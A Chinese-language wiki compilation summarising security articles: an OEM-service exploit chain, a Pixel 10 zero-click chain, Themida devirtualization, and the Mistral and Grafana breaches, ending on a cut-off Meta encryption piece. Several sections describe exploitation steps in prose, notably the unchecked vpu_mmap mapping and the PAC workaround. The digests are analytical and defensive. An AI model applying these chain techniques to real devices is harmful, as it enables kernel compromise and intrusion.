ROI 目标选择机制也值得关注：作者基于「保守派息估算 / 预计狩猎小时」计算期望 ROI，并对高竞争项目施加 40-60% 的折算，反映了真实漏洞奖金生态中的现实竞争压力。
**5. 从 OEM 服务 0day 看高级攻击链的构建逻辑**
文章中描述的 4 阶段攻击链（Named Pipe 认证绕过 → SSRF → Catalog 注入 → BYOVD）是一个教科书级别的多阶段链式漏洞利用案例。关键步骤：
1. 利用服务端不执行认证的 Named Pipe 设计缺陷（客户端自行实现认证）
2. 通过 WCF 接口的 URL 参数实现 SSRF，且无管理员权限校验
3. 伪造更新包描述符绕过 SHA256 和 Authenticode 签名验证
4. 利用 WHQL 签名但存在已知 CVE 的旧驱动绕过 HVCI
这说明**现代高价值漏洞利用往往不是单一 0day，而是多条低/中危漏洞的链式组合**。

## 实践启示
**对于安全研究人员：**
1. **从 Gate 0 开始构建你的自动化研究系统**：任何 LLM 辅助的安全研究工具链，第一步应该是建立「假阳性缓存/隔离区」，而非直接相信模型输出。将发现放入「待验证」暂存区，经过自动化 + 人工双重审查后再晋升。
2. **会话持久化是 MCP 安全自动化的关键**：如果你的 MCP 实现中每个工具调用都重连 SSH，会大幅增加 token 消耗和时间延迟。投资于会话管理层（如重连逻辑、保活机制），收益会随使用规模放大。
3. **建立负结果知识库**：记录哪些目标有防御机制、哪些攻击路径被堵塞，与记录成功漏洞同等重要。知识库的复合效应需要 10+ 轮活动才能显现，早期投入值得。
4. **ROI 目标选择值得标准化**：用「最低派息 / 预计小时 × 竞争折算」对潜在目标打分，避免在高竞争目标（如大型 OS 厂商）上浪费大量时间。
**对于工程师和架构师：**
5. **将 AI 辅助安全工具视为「高级实习生」而非「自动漏洞机器」**：作者的关键判断——「我希望 AI 处理工具折腾，我保留思考和写作」——是正确的人机协作模型。AI 擅长的是：文献综述、代码框架生成、报告草稿、重复性数据分析；不适合的是：独立判断漏洞可利用性、替代人类专家决策。
6. **「低权限验证」应当成为你的安全测试标准流程**：任何漏洞发现报告，在 SYSTEM/admin 上下文中验证通过后，必须用标准用户权限重新验证。真实的攻击者无法绕过权限边界，而很多漏洞研究流程忽略了这一点。
7. **考虑用 MCP 封装内部工具以实现 AI 可调用化**：如果你有内部安全扫描工具、漏洞管理平台、SIEM 查询接口，将它们封装为 MCP 服务器可以让 Claude Code 等 AI 系统直接编排这些工具，而无需通过 API 直接集成。
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/bullyingllms.md)

## 相关实体
- [别让你的 Amazon Bedrock 模型为他人打工——API 调用安全防护指南](https://github.com/QianJinGuo/wiki/blob/main/entities/amazon-bedrock-api-security-guide.md)
> [主题导航](https://github.com/QianJinGuo/wiki/blob/main/moc/cybersecurity-privacy.md)

- [Autonomous Vulnerability Hunting with MCP](https://github.com/QianJinGuo/wiki/blob/main/entities/autonomous-vulnerability-hunting-with-mcp.md)
- [小米AI — ICML 2026 论文矩阵（11篇）](https://github.com/QianJinGuo/wiki/blob/main/entities/xiaomi-ai-icml-2026-11papers.md)
- [Versa takes aim at fragmented enterprise security with CSPM, orchestration update, and AI agent controls](https://github.com/QianJinGuo/wiki/blob/main/entities/www-networkworld-com-versa-takes-aim-at-fragmented-enterprise-security.md)
- [LLM raiders and how to repel them](https://github.com/QianJinGuo/wiki/blob/main/entities/llm-raiders-how-to-repel.md)
- [LLM raiders and how to repel them](https://github.com/QianJinGuo/wiki/blob/main/entities/llm-raiders-private-ai-server.md)
- [Project Glasswing: what Mythos showed us](https://github.com/QianJinGuo/wiki/blob/main/entities/cloudflare-glasswing-mythos-security.md)

---

## Ch12.053 A 0-click exploit chain for the Pixel 10: When a Door Closes, a Window Opens

> 📊 Level ⭐⭐ | 7.8KB | `entities/pixel-10-zero-click-exploit-chain.md`

## 核心要点
## 相关实体
- [A 0 Click Exploit Chain For The Pixel 10 When A Door Closes A Window Opens 1](https://github.com/QianJinGuo/wiki/blob/main/entities/a-0-click-exploit-chain-for-the-pixel-10-when-a-door-closes-a-window-opens-1.md)
- [A 0 Click Exploit Chain For The Pixel 10 When A Door Closes A Window Opens](https://github.com/QianJinGuo/wiki/blob/main/entities/a-0-click-exploit-chain-for-the-pixel-10-when-a-door-closes-a-window-opens.md)
- [Introducing Deepsec Find And Fix Vulnerabilities In Your Code Base](https://github.com/QianJinGuo/wiki/blob/main/entities/introducing-deepsec-find-and-fix-vulnerabilities-in-your-code-base.md)
- [Anthropic_Cache_Tokenomics](https://github.com/QianJinGuo/wiki/blob/main/entities/anthropic_cache_tokenomics.md)
- [Consumer Confidence Economy Cnbc](https://github.com/QianJinGuo/wiki/blob/main/entities/consumer-confidence-economy-cnbc.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/pixel-10-zero-click-exploit-chain.md)

## 深度分析
### 攻击链架构：从零点击到根权限的两阶段模型
该研究构建了一条针对 Pixel 10 的完整攻击链，分为两个核心阶段。第一阶段利用 Dolby UDC（用户态解码器组件）中的 CVE-2025-54957 实现初始代码执行，这是在无需用户交互的零点击（0-click）前提下完成的。第二阶段通过 VPU（视频处理单元）驱动的内核任意读写漏洞实现权限提升，最终获取根权限。整个链路的架构设计与此前 Pixel 9 的攻击链一脉相承，但在具体实现上针对 Pixel 10 的硬件和软件环境做了全面迁移。

### Dolby 漏洞的移植：RET PAC 带来的绕过策略
将 Pixel 9 的 Dolby 漏洞移植到 Pixel 10 时，主要工作量在于更新目标库版本相关的偏移量计算。然而，一个关键差异在于 Pixel 10 启用了 RET PAC（Pointer Authentication Code 返回地址认证），取代了传统的 `-fstack-protector` 栈保护机制。这一改变导致 `__stack_chk_fail` 函数不再可用于覆盖（overwrite），因为 PAC 会对返回地址进行完整性校验。
研究团队采用了一种创新的绕过策略：覆盖 `dap_cpdp_init`——一段初始化代码，在解码器初始化时被调用一次后就不再使用。通过覆盖此函数，可以在不引发功能性问题的前提下实现代码执行跳转。

### VPU 驱动漏洞：内核任意读写的"圣杯"
攻击链的第二阶段利用了新发现的 VPU 驱动漏洞。研究团队与 Jann Horn 合作，仅用两小时审计就发现了这一严重问题。该漏洞存在于 `/dev/vpu` 设备驱动的 `vpu_mmap` 函数中，其核心问题在于：`remap_pfn_range` 仅根据 VMA（虚拟内存区域）的大小来确定映射范围，而完全未对实际寄存器区域的边界进行校验。这意味着通过指定一个大于寄存器区域大小的 mmap 参数，攻击者可以将任意物理地址范围映射到用户态虚拟地址空间。
结合 Pixel 内核物理地址固定不变这一特性（KASLR 已失效），攻击者无需扫描即可直接计算内核镜像的物理地址偏移，轻松实现对内核 .text 和 .data 区域的任意读写。整个漏洞利用代码仅需 5 行，完成完整利用开发不到一天。

### 漏洞修复：从 BigWave 到 VPU 的补丁流程演进
值得注意的是，Android 漏洞响应流程在此案例中展现出明显的改进。此前针对 Pixel 9 BigWave 驱动漏洞的初始评级为"中等"（Moderate），而此次 VPU 漏洞在报告后被 Android VRP 评为"高危"（High）。从 2025 年 11 月 24 日首次报告到 2026 年 2 月安全公告正式修复，耗时 71 天，优于 90 天的常见修复周期。这标志着 Android 安全响应团队对驱动类漏洞的严重性评估标准正在趋于严格。

### Chip&Media 驱动的系统性安全风险
VPU 驱动漏洞的特殊之处在于其代码质量。与上游 Linux 驱动（针对 WAVE521C）不同，Pixel 10 使用的 WAVE677DV 驱动绕过了 V4L2（Video for Linux API）抽象层，直接将硬件接口暴露给用户空间，包括允许用户态映射 MMIO 寄存器区域。这种设计选择显著扩大了攻击面。研究表明，在 BigWave 漏洞被披露后，开发方并未对同系列其他驱动进行系统性安全评估，导致时隔 5 个月后出现了同等严重的 VPU 漏洞。

## 实践启示
### 对安全研究者的启示
**1. 固件偏移自动化提取的必要性**：将漏洞从一款设备移植到另一款设备时，大量工作集中在更新特定库版本相关的偏移量。研究团队明确指出，文档化不足（特别是哪些 syncframes 包含关键偏移）显著增加了移植难度。建议在漏洞利用开发过程中建立系统化的偏移量追踪机制，或开发自动化脚本以加速跨设备移植。
**2. 认证机制的绕过思路扩展**：RET PAC 的引入改变了栈保护的游戏规则。当传统的 `__stack_chk_fail` 覆盖不再可行时，寻找初始化代码中可被覆盖的"一次性"函数（如 `dap_cpdp_init`）是一种有效的替代路径。安全研究者应将此类模式纳入漏洞利用知识库。
**3. 快速审计驱动的价值**：在合作审计中，仅用两小时就发现"极其浅显"（shallow）的高危漏洞，说明对关键驱动进行短时间人工审计的投入产出比极高。建议在漏洞披露后，对同开发者或同系列的其他驱动立即进行快速人工审查。

### 对厂商开发团队的启示
**1. mmap 边界校验的强制性要求**：`vpu_mmap` 漏洞的本质是缺少对映射大小的边界检查。这再次证明，任何将内核物理地址映射到用户态的驱动必须对请求的映射范围进行严格校验，确保不超出实际硬件寄存器区域的边界。代码审查清单中应将此类检查列为必须项。
**2. 避免绕过安全抽象层**：直接暴露硬件接口（绕过 V4L2）虽然可能带来性能收益，但显著增加了安全风险。厂商在性能与安全的权衡中应更倾向于使用经过安全审计的中间抽象层，而非为追求极致性能而牺牲安全隔离。
**3. 漏洞响应标准化的价值**：Android VRP 对 VPU 漏洞的评级和处理速度改进表明，建立清晰的漏洞严重性评估标准并严格执行，可以有效缩短修复周期。建议所有驱动开发者与安全团队协作，建立针对驱动类漏洞的统一响应 SLA。

### 对 Android 生态的启示
**1. 驱动供应链安全的系统性视角**：Chip&Media 的 BigWave 和 VPU 驱动相继出现严重漏洞，揭示了第三方硬件驱动供应链的安全风险。Android 生态中的设备厂商在集成第三方驱动时，应建立独立的安全评估流程，而非完全依赖上游开发者的代码质量。
**2. 物理地址暴露的长期风险**：Pixel 内核物理地址固定的问题已被持续利用。这意味着即使 KASLR 在软件层面被启用，硬件特性或驱动设计缺陷仍可能导致内核地址空间布局信息泄露。未来的防御策略需要同时考虑软件和硬件层面的缓解措施。
**3. 零点击攻击面的持续扩大**：Dolby 漏洞的跨版本可移植性说明，零点击攻击面在 Android 生态中具有持久性。随着攻击者对系统组件的深入理解，单个基础组件的漏洞可以成为多条设备攻击链的起点。安全团队应将零点击攻击面（媒体解析、基带处理、近场通信等）列为高优先级审计目标。
---
**相关漏洞**：Dolby UDC（CVE-2025-54957）| VPU mmap 边界校验缺失（Android Bug 463438263）
**相关厂商**：Google Project Zero | Android VRP | Chips&Media

---

## Ch12.054 Static Devirtualization of Themida

> 📊 Level ⭐⭐ | 7.5KB | `entities/static-devirtualization-of-themida.md`

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/static-devirtualization-of-themida.md)

## 摘要
本文由 Back Engineering Labs 发布，展示了一种**通用静态去虚拟化（Static Devirtualization）框架**，核心思想是将 VM 保护的二进制代码通过符号执行（symbolic evaluation）提升（lift）至中间表示（IR），再利用一系列通用优化 passes 将虚拟机的所有"脚手架"逐一消除，最终将代码回填（reinsert）至原生 x86/ARM64。该方法在 Themida、VMProtect 等多种基于虚拟机的代码保护器上均适用，仅需少量 VM 特定知识——尤其是在处理虚拟条件分支（VJCC）时需要 Themida 特有的 `branch_taken_flag` 追踪。

## 核心方法
### 引导式符号执行（Guided Symbolic Evaluation）
devirtualization 的起点是将原生指令提升至可操作的 IR。Back Engineering Labs 使用自研的 **BLARE2** 引擎（自定义 SSA IR，支持 AMD64 和 ARM64，包含完整 pass 系统、优化器、指令选择器、寄存器分配器和链接器）完成这一任务。 关键设计决策：

- 符号执行开始时，**所有寄存器和标志位均为符号值**，除了 RSP（栈指针）被赋予具体初始值
- 保持 RSP 具体化（concrete）的好处：现有的 load/store 传播逻辑自动处理栈访问，任何调整 RSP 的算术操作可被常量折叠，无需特殊处理。代价是动态栈分配（如 `alloca`）不受支持，但在虚拟化函数中罕见
- 当遇到 ret 指令且 RSP = `initRSP - 0x10` 时，判定为 **VMEXIT-CALL**：call 目标置于 RSP，返回地址置于 `RSP + 0x8`

### 通用优化 Passes 的协同崩塌效应
devirtualization 的真正力量来自一组通用优化 passes 的**协同收敛**。这些 passes 之间相互依赖——一个 pass 的输出为下一个 pass 提供输入——最终导致整个 VM 脚手架自动坍塌。
1. **常量提升与内存建模（Constant Promotion & Memory Modeling）**：将 bytecode 加载地址提升为常量，为后续常量折叠提供具体操作数
2. **常量折叠（Constant Folding）**：运行至不动点，将解码算术、handler 表索引、VPC 更新数学全部折叠为常量
3. **无效存储消除（Dead Store Elimination）**：VM 私有内存中的存储在 VMEXIT 后无观察效果，安全删除
4. **指令组合（Instruction Combination）**：识别冗余算术（自抵消操作、冗余掩码、恒等乘法），逐步剥离混淆噪声
5. **分支折叠（Branch Folding）**：标志位计算折叠为常量后，依赖常量的条件分支可静态消解

### Themida 特有的 VJCC 处理
这是少数需要 VM 特定知识的场景之一。Themida 的 VJCC handler 在 **VIP 推进之前**先评估条件并写入 `branch_taken_flag`，这意味着符号执行在 VIP 解析之前就遇到分支叉点——两条路径均需探索，每条路径的正确 VIP 必须通过追踪条件 VPC 更新逻辑获得。相比之下，VMProtect 的 VIP 就是最后加载模块值，逻辑简单得多。

### 回填（Lowering）阶段的关键约束
devirtualized 代码要被 IDA、Binary Ninja 等工具正常加载，关键约束是**寄存器压力**。若寄存器分配器发生 spill（溢出至栈），devirtualized 函数获得独立的栈帧，导致栈传递参数的地址计算错误，整个函数在反编译器中无法正确解析。因此，高质量的后端（tight, well-behaved native code）是 devirtualization 的临门一脚——这是作者对 LLVM-based 方案持保留态度的原因。

## 深度分析
### 框架可移植性的来源
本文最重要的方法论贡献不是针对 Themida 的具体技巧，而是**最大化通用性、最小化 VM 特定知识**的设计哲学。Themida 的架构与 VMProtect 本质不同（VM context 存在于二进制自身而非原生栈），但 devirtualization 方法是通用的。这是因为绝大多数 passes（常量折叠、DSE、指令组合、分支折叠）都是标准编译器优化，不依赖任何 VM 内部细节。VM 特定知识只在两个地方出现：VJCC 的 `branch_taken_flag` 追踪和 VMEXIT 的 RSP 模式识别。

### Pattern Matching 的失效与结构化方法的胜利
作者在早期研究中曾尝试 pattern matching（将 VM handler 反向匹配回 x86 指令），但发现这一方法不可扩展：handler 布局、opcode 表或调度逻辑的任何微小变更都会在整版本范围内破坏工具链。这与软件逆向工程中"anti-pattern matching"的设计趋势一致——保护器厂商正是利用这一漏洞主动破坏基于特征的检测工具。结构化符号执行方法则对 VM 内部表示变化具有天然鲁棒性。

### 符号执行防御的边界
文章最后坦承：当 obfuscator 将分支目标编码为带有不透明值（opaque values）的 MBA 表达式时，符号执行无法 concretize 分支目的地。但这类 MBA 表达式目前已可被presentation [YouTube] 中描述的技术轻易约简——这说明防御与攻击的技术博弈仍在动态演进，静态去虚拟化并非终极解决方案。

## 实践启示
### 二进制安全研究
- 从事恶意软件分析或漏洞挖掘的研究者，若遇到 Themida/VMProtect 保护的二进制，可使用本文描述的框架思路：使用 Triton/Remill 升提 IR → 运行通用优化 passes → 尝试回填原生代码
- 关键前置条件：RSP concretization 意味着**不支持动态栈分配函数**——分析前需确认目标函数没有 `alloca`
- VMEXIT 模式识别是判断保护类型（call-shaped exit vs. return-to-epilog）的重要信号

### 工具链构建
- 通用优化 passes 的效果强依赖于运行至收敛（running to convergence）：单次 pass 可能触发新的常量折叠机会，需循环迭代直至 IR 稳定
- BLARE2 的后端设计（tight native output）是其区别于学术 lifting 框架的核心优势。若自建工具链，需要在 LLVM 后端投入大量工程精力
- 符号执行引擎的初始 RSP concretization 策略需根据目标二进制进行调整——某些 Themida 变体可能在 VM entry 时修改 RSP

### 软件保护评估
- 若评估一款软件保护产品的抗逆向能力，可参照本文检测其 VM handler 的符号执行可 concretize 程度：handler 越复杂、MBA 混淆越深，静态 devirtualization 的难度越高
- Themida 的嵌套虚拟化（nested virtualization）能力——VM context 存在于二进制自身——是其区别于 VMProtect 的架构优势，也是更难 devirtualize 的原因之一

## 相关实体
- [Static Devirtualization of Themida](https://github.com/QianJinGuo/wiki/blob/main/entities/back-engineering-static-devirtualization-themida.md)
- [Static Devirtualization of Themida](https://github.com/QianJinGuo/wiki/blob/main/entities/static-devirtualization-themida.md)
- [static devirtualization of themida](https://github.com/QianJinGuo/wiki/blob/main/entities/2026.md)

---

## Ch12.055 TeamPCP Claims Sale of Mistral AI Repositories Amid Mini Shai-Hulud Attack

> 📊 Level ⭐⭐ | 7.4KB | `entities/teampcp-claims-sale-of-mistral-ai-repositories-amid-mini-shai-hulud-attack-1.md`

## 核心要点
- TeamPCP 在黑客论坛上声称出售约 5GB 的 Mistral AI 内部代码库存档，标价 $25,000，威胁一周内公开泄露 
- 存档据称包含约 450 个仓库，覆盖训练系统、微调项目、基准测试工具、仪表板、推理基础设施和实验性 AI 项目 
- Mistral AI 随后确认 2026 年 5 月 12 日因第三方软件供应链攻击，其代码库管理系统被短暂攻破，仅非核心代码仓库被访问 
- Mini Shai-Hulud 供应链攻击通过滥用 CI/CD 发布系统和劫持 OpenID Connect 令牌向 npm 和 PyPI 分发恶意包更新 
- 这是 AI 公司首次从包生态系统攻击演进到内部开发系统和代码库资产的系统性窃取与货币化 
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/teampcp-claims-sale-of-mistral-ai-repositories-amid-mini-shai-hulud-attack-1.md)

## 深度分析
这一事件标志着针对 AI 基础设施的网络攻击正在发生结构性演变。传统上，针对开源 AI 项目的攻击主要集中在包生态系统投毒（如恶意 npm/PyPI 包），目标是获取开发者工作站上的凭证和密钥。而 TeamPCP 事件则揭示了一条从包供应链攻击到内部开发资产窃取与货币化的完整攻击链：Mini Shai-Hulud 攻击首先通过污染与 Mistral AI 相关的 npm 和 PyPI 包建立初步立足点，随后利用获取的凭证或 CI/CD 访问权限深入目标内部系统，最终从代码库管理系统中提取专有的源代码和训练基础设施代码。
从攻击链时间线来看，Mini Shai-Hulud 攻击（2026 年 5 月上旬）污染了 Mistral AI 相关项目的 npm 和 PyPI 包，TeamPCP 在数日后（2026 年 5 月 14 日）随即在黑客论坛上发布出售帖，声称掌握约 450 个内部仓库、总计 5GB 的数据。这一时间紧密度表明两次攻击很可能是同一攻击者有计划的连续行动，而非独立事件。值得注意的是，论坛帖子中列出的仓库名称（如 `mistral-finetune-internal`、`mistral-inference-internal`、`chatbot-security-evaluation`、`pfizer-rfp-2025`）显示攻击者可能获取了涉及企业客户合作（如 Pfizer）和内部安全评估工具的敏感信息 。
Mistral AI 在事件后的声明确认了代码库管理系统被短暂攻破，但强调"仅访问了部分非核心代码仓库"，托管服务、用户数据和研发测试环境未受影响。然而，非核心仓库的失窃并不意味着威胁有限——源代码中可能包含模型架构设计细节、训练流程配置、专有算法实现以及与客户合作项目的内部文档，这些信息对于竞争对手或国家背景攻击者具有极高的情报价值。$25,000 的要价对于可能包含前沿 AI 知识产权的代码库而言，远低于其实际商业价值。
从攻击手法看，Mini Shai-Hulud 攻击滥用 CI/CD 发布系统和被劫持的 OpenID Connect 令牌，通过合法的发布机制分发恶意包更新。这揭示了现代 AI 开发基础设施中一个系统性的安全弱点：CI/CD 环境通常持有高权限令牌以自动发布包更新，但这些令牌的颁发和轮换机制往往缺乏足够的防护。OpenID Connect 令牌的劫持意味着攻击者可以在不直接窃取长期凭证的情况下，模拟合法 CI/CD 流程执行恶意操作，从而绕过基于凭证的直接窃取检测机制。
这一事件的深层含义在于，随着 AI 公司在云端训练、推理和自主 agent 系统上的投入不断加大，开发者和 CI/CD 环境正在成为高价值攻击目标。代码库管理系统（codebase management systems）承载着企业的核心知识产权，其战略价值远超单一用户凭证或公网可访问的系统。

## 实践启示
**将供应链安全视为持续性威胁而非一次性事件**：从 SolarWinds 到 XZ Utils，再到 Mini Shai-Hulud，供应链攻击的频率和复杂性持续上升。AI 公司应假设其包发布基础设施和 CI/CD 系统迟早会成为攻击目标，并将防护策略从被动响应转向主动防御。实施最小权限原则限制 CI/CD 令牌的权限范围，对所有 OpenID Connect 令牌实施严格的颁发条件和短期过期策略，定期轮换发布密钥，以及在包发布流程中引入多人审批机制，都是降低供应链攻击风险的有效手段。
**代码库管理系统的防护优先级应等同于生产系统**：代码库管理系统（如 GitLab、GitHub Enterprise）通常被视为内部管理工具而非面向攻击者的系统，因此安全投入不足。Mistral AI 事件表明，代码库被攻破后产生的影响可能不亚于生产系统数据泄露。建议对代码库管理实施强制 MFA、严格的 IP 访问范围限制、异常访问模式检测（如非工作时间的批量克隆操作）以及定期的访问审计。托管服务（用户数据）和内部系统（代码库）应被视为需要独立安全防护策略的不同资产类别 。
**事件响应能力的快速启动至关重要**：Mistral AI 在事件中展示了有效的事件响应——快速遏制攻击、启动取证调查并联系相关 authorities。对于所有 AI 公司，建议预先建立明确的事件响应 playbook，特别是针对代码库和供应链两类不同安全事件的响应流程。在攻击者声称"一周内公开泄露"的紧迫时间压力下，预先建立的关系和流程能够显著提高响应效率 。
**AI 基础设施安全的攻防对抗正在加速**：这一事件印证了一个趋势——针对 AI 公司的攻击者已不仅满足于窃取用户数据或投放恶意包，而是直指 AI 公司的核心竞争力：模型训练代码、推理基础设施和内部工具。防御方需要在传统应用安全基础上，增加对 AI 工作负载特有攻击面（如训练数据管道、模型权重存储、推理服务接口）的专项防护投入。

## 相关实体
- [Restrict Access to Sensitive Documents in Amazon QuickSight](https://github.com/QianJinGuo/wiki/blob/main/entities/restrict-access-to-sensitive-documents-in-your-amazon-quick-knowledge-bases-for-.md) — 企业级文档访问控制实践
- [PyTorch 2.12 Release Blog – PyTorch](https://github.com/QianJinGuo/wiki/blob/main/entities/pytorch-2-12-release-blog.md) — AI 框架生态安全

---

## Ch12.056 Grafana GitHub Token Breach Led to Codebase Download and Extortion Attempt

> 📊 Level ⭐⭐ | 7.3KB | `entities/grafana-github-token-breach-led-to-codebase-download-and-extortion-attempt-2.md`

## 事件概要
Grafana 于 2026 年 5 月披露，公司遭 unauthorized party 获取了可访问其 GitHub 环境的 token，并下载了代码库。调查显示无客户数据或个人信息的访问痕迹，Grafana 随即启动取证分析、定位泄露源头、作废凭证并强化安全管控。攻击者随后试图勒索 Grafana，要求支付赎金以阻止被盗数据库公开，Grafana 拒绝支付并遵循 FBI 一贯立场——不与勒索者谈判。
CoinbaseCartel 宣称对此次事件负责。该组织于 2025 年 9 月崛起，被评估为 ShinyHunters、Scattered Spider 和 LAPSUS$ 生态的分支，专注于数据窃取和勒索而非传统勒索软件，已累计受害 170 家机构，遍布医疗、科技、交通、制造和商业服务领域。

## 深度分析
**1. 攻击向量：GitHub Token 泄露**
本次事件的初始向量是 GitHub 访问 token 被 unauthorized party 获取。GitHub token 泄露是 SaaS/开源项目最常见的供应链上游风险之一。与直接攻入生产环境不同，攻击者只需获得一个拥有 repo 读权限的 token，即可静默下载全部代码库，且不留痕迹。这种"低交互、长期潜伏"的模式正是 CoinbaseCartel 等数据勒索组织的典型策略。
**2. 纯数据勒索（Pure Data Extortion）模式的成熟**
CoinbaseCartel 不部署勒索软件，只窃取数据并以公开威胁为筹码勒索。这是近年来从 LAPSUS$、ShinyHunters 到 Scattered Spider 一脉相承的战术演进。与加密勒索相比，数据勒索：

- 实施成本更低（无需恶意软件定制）
- 防御方无法通过备份快速恢复（因为数据已在攻击者手中）
- 勒索成功率更高（受害者面临数据公开的声誉风险）
CoinbaseCartel 的 170 家受害者和 Grafana 事件表明这一模式已进入成熟产业化阶段。
**3. FBI 立场与企业决策的博弈**
Grafana 选择不支付赎金，明确引用 FBI 指引：支付赎金不能保证数据恢复，只会激励更多攻击者效仿。然而 Instructure（Canvas 的母公司）在 ShinyHunters 事件中选择支付赎金，凸显了不同企业在"数据公开风险 vs. 赎金成本"之间的现实博弈。FBI 的建议在理论上正确，但在涉及大量敏感用户数据时，企业实际抉择往往更复杂。
**4. 开源项目的特殊风险敞口**
Grafana 作为头部开源可观测性平台，其代码库包含大量专有逻辑和潜在未公开漏洞。代码库一旦泄露，攻击者可进行：

- 源码审计以发现 0-day
- 供应链投毒（如果攻击者向开源生态提交恶意 commit）
- 竞争对手情报获取
开源项目的安全边界不再只是运行时的容器和网络，还包括代码托管平台本身的访问控制。
**5. 事件响应透明度**
Grafana 主动在 X 平台公布事件进展，遵循了 modern breach disclosure 惯例。但公告中未披露具体时间线（何时发生、持续多久）、token 类型、以及下载的具体代码范围。这种不透明虽然可能出于安全考量，但为 CoinbaseCartel 后续"公开爆料"留下了叙事空间。

## 实践启示
**1. GitHub Token 最小权限与轮换机制**

- 对所有 GitHub token 实施最小权限原则（read-only vs. read-write 严格区分）
- 定期自动轮换 token，缩短泄露窗口期
- 启用 GitHub 的 token 审计日志（Audit log），设置异常访问告警
- 敏感操作（codebase download、organization settings 修改）触发多因素认证
**2. 代码库访问的分层防护**

- 对代码库实施分段访问控制，核心组件与外围模块隔离
- 引入 branch protection 和 CODEOWNERS，限制关键 repo 的直接 push 权限
- 监控异常的大批量 API 调用（如整库 clone），这是数据外泄的前兆
**3. 数据勒索事件的预案建设**

- 预先制定"被勒索响应手册"，明确决策树（是否上报 FBI、是否支付、法律顾问介入时机）
- 与 FBI Internet Crime Complaint Center (IC3) 建立直接联系通道
- 模拟演练：假设源码已被泄露，测试应急响应流程和内部沟通机制
**4. 开源生态的供应链安全**

- 对依赖的第三方 Actions/CI 流程进行代码签名验证
- 监控异常 commit 和 collaborator 添加
- 维护软件物料清单（SBOM），在发生泄露时快速评估影响范围
**5. 监控与威胁情报整合**

- 订阅 CoinbaseCartel 等活跃数据勒索组织的泄露公告（ RansomLeak、DarkFeed）
- Grafana 可通过监控 dark web 论坛判断其代码是否已被公开或出售
- 将 CoinbaseCartel 的 TTPs（战术、技术、流程）纳入 SOC 检测规则
## 相关实体
- [Grafana Github Token Breach Led To Codebase Download And Extortion Attempt](https://github.com/QianJinGuo/wiki/blob/main/entities/grafana-github-token-breach-led-to-codebase-download-and-extortion-attempt.md)
- [Grafana Github Token Breach Led To Html](https://github.com/QianJinGuo/wiki/blob/main/entities/grafana-github-token-breach-led-to-html.md)
- [Vscode Github Token Stealing 1 Click Pwn Ammaraskar 2026](https://github.com/QianJinGuo/wiki/blob/main/entities/vscode-github-token-stealing-1-click-pwn-ammaraskar-2026.md)
- [Github Investigating Teampcp Claimed 17Cc77](https://github.com/QianJinGuo/wiki/blob/main/entities/github-investigating-teampcp-claimed-17cc77.md)
- [Thehackernews Com Github Breached Employee Device Hack Led To Exfilt](https://github.com/QianJinGuo/wiki/blob/main/entities/thehackernews-com-github-breached-employee-device-hack-led-to-exfilt.md)
- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-landscape.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/grafana-github-token-breach-led-to-codebase-download-and-extortion-attempt-2.md)

---

## Ch12.057 Meta U-turns on encryption push for Instagram as DMs go plaintext

> 📊 Level ⭐⭐ | 7.3KB | `entities/5235705.md`

# Meta U-turns on encryption push for Instagram as DMs go plaintext

Meta has quietly pulled the plug on encrypted Instagram DMs, meaning private messages on one of the world's biggest social networks are no longer especially private. The change took effect in 2026, according to a revised Meta post first published in 2022. In a statement to The Register, Meta said the feature saw limited adoption and pointed users toward WhatsApp instead.

It's quite the reversal for a corporation that spent years telling everyone that encryption was the future of online communications, even as governments pushed back against the company's wider rollout plans. Much of that pressure centered on child protection — campaigners and agencies, including the NSPCC UK and National Crime Agency, argued wider encryption would make it harder to detect grooming, child abuse material, and other criminal activity.

Privacy advocates, however, say Meta has just blown a hole in one of the few genuinely private corners of the platform. The Center for Democracy & Technology, alongside members of the Global Encryption Coalition Steering Committee, urged Meta to reverse the decision. "Without default encryption, millions of Instagram users are left exposed to surveillance, interception, and misuse of their private communications," the group said. "These risks fall hardest on people who rely on secure messaging for their safety, including journalists, human rights defenders, and survivors of abuse."

Swiss privacy outfit Proton also questioned what exactly happens to existing chats once encryption disappears. Because properly implemented E2EE prevents platforms from reading message contents, Meta has not clarified whether previously encrypted conversations will remain inaccessible, get deleted, or become readable. "For Instagram, dropping E2EE is just an example of how little regard Meta has for the privacy and safety of its community," Proton said in a blog post.

Meta has become increasingly aggressive about monetizing and analyzing user interactions. Last year, the company confirmed that interactions with Meta AI tools, including those inside private conversations, could be used for ad targeting. The company has not publicly said whether ordinary Instagram messages could eventually feed into similar systems now that encryption is gone.

## 深度分析

**1. Meta 的"加密优先"叙事与商业利益存在根本矛盾**

Meta 多年来公开倡导端到端加密是"在线通信的未来"，却在 2026 年悄然移除 Instagram DMs 的加密选项。这种 180 度反转揭示了其隐私承诺的工具性本质：当加密与数据变现、广告定向产生冲突时，Meta 选择了后者。Proton 明确指出这一决定"表明 Meta 对用户隐私和安全几乎毫不关心"，反映出不加密的 DMs 可被平台读取、分析并用于广告变现的商业逻辑。

**2. 儿童保护诉求被Meta用作撤回加密的道德盾牌**

NSPCC 和英国国家犯罪局等机构以"检测 grooming 和儿童虐待内容"为由反对 E2EE 扩展，Meta 顺势将这一压力转化为退出加密的借口。然而 Center for Democracy & Technology 反驳指出，缺乏加密反而使记者、人权活动家和家暴幸存者等高风险群体暴露在监控之下。这揭示了隐私与安全之间复杂的张力：真正的安全需要加密保护，而非削弱加密。

**3. 用户采用率低的真正原因值得追问**

Meta 将移除加密归因于"很少有人选择开启 E2EE"，但未解释为何采用率如此之低。可能是：(1) UI 设计导致用户不知道该功能存在；(2) Meta 从未默认启用；(3) 功能本身的可用性存在问题。如果 Meta 真正重视隐私，本应默认开启加密，而非将采用率低作为撤退的理由。

**4. 现有加密消息的命运存在严重不确定性**

Proton 提出的核心问题——已有的加密对话将如何处理——至今没有答案。E2EE 的核心价值在于平台无法解密，若 Meta 现在可以读取这些消息，则说明：(1) 密钥管理存在后门；或 (2) 平台在加密前后都保留了消息副本。这直接关系到用户信任的基础。

**5. AI 监控与加密撤退构成系统性隐私侵蚀**

